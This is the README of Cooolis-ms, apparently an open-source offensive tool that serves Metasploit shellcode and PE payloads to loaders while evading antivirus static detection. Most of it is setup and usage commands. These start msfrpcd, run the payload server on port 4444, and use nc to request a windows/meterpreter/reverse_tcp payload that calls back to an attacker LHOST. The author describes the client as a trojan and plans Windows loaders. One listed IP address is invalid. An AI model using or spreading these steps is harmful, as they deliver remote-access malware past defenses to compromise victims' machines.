 # Cooolis-ms

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。


Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：

You need to start the Metasploit RPC server first:

IP : 192.168.117.234

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：

Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 192.168.117.1

```
$ python3 server.py -U msf -P msf -H 192.168.117.234 -v -s -l 4444 -S 192.168.117.1
```

此时当客户端连接192.168.117.1:4444后，并发送配置载荷的JSON字符串就可以获得载荷代码：

At this point, when the client connects to 192.168.117.1:4444 and sends a JSON string of the configuration payload, the payload code can be obtained:

IP : 192.168.117.267

```
$ nc 192.168.117.1 4444
{"LPORT": "9988", "Format": "dll", "LHOST": "192.168.117.1","payload":"windows/meterpreter/reverse_tcp"}
// PAYLoAD ....
```

假设nc是一个木马，那么木马最终会连接JSON字符串中的`LHOST`，当然，也支持Metasploit中的所有载荷。


Assuming nc is a Trojan, then the Trojan will eventually connect to `LHOST` in the JSON string, and of course, all payloads in Metasploit are also supported.


1. 192.168.117.267->192.168.117.1:4444<->192.168.117.234
2. 192.168.117.267<->192.168.117.234

## About other | 关于其他

后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。


Subsequent I will write a collection of generic loader clients for the Windows platform into this project.

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
